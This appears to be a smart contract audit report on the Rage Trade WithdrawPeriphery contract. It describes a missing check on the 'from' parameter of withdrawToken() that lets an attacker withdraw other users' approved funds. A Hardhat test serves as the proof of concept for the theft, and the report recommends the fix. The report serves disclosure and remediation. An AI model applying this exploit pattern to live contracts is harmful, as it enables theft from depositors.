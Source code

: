 Nyx

high

# Attacker can steal funds

## Summary
Attacker can steal funds with withdrawToken() function.
## Vulnerability Detail
Missing validation on withdrawTokens from parameter can cause attackers to steal funds.
## Impact
Users who deposited dnGmxJuniorVault can lose their funds.
## Code Snippet
Code : 
https://github.com/sherlock-audit/2022-10-rage-trade/blob/main/dn-gmx-vaults/contracts/periphery/WithdrawPeriphery.sol#L113-L125
Test : 
```TypeScript
it('withdrawToken - attack', async () => {
    const { usdc, users, periphery, gmxVault, dnGmxJuniorVault, dnGmxSeniorVault } = await dnGmxJuniorVaultFixture();

    await dnGmxSeniorVault.connect(users[1]).deposit(parseUnits('100', 6), users[1].address);

    const amount = parseEther('100');
    const withdrawAmount = parseEther('20');

    await dnGmxJuniorVault.connect(users[0]).deposit(amount, users[0].address);
    await dnGmxJuniorVault.connect(users[0]).approve(periphery.address, constants.MaxUint256);

    console.log('user[0] balance', await dnGmxJuniorVault.balanceOf(users[0].address));
    const usdcBalBefore = await usdc.balanceOf(users[2].address);
    console.log('usdcBalBefore', usdcBalBefore.toString());

    const tx = periphery
      .connect(users[2])
      .withdrawToken(users[0].address, usdc.address, users[2].address, withdrawAmount);

    await expect(tx).to.emit(periphery, 'TokenWithdrawn');

    const usdcBalAfter = await usdc.balanceOf(users[2].address); // attacker balance
    console.log('usdcBalAfter', usdcBalAfter.toString());
    console.log('user[0] balance', await dnGmxJuniorVault.balanceOf(users[0].address)); // user balance
```
## Tool used

Manual Review

## Recommendation
from needs to be msg.sender.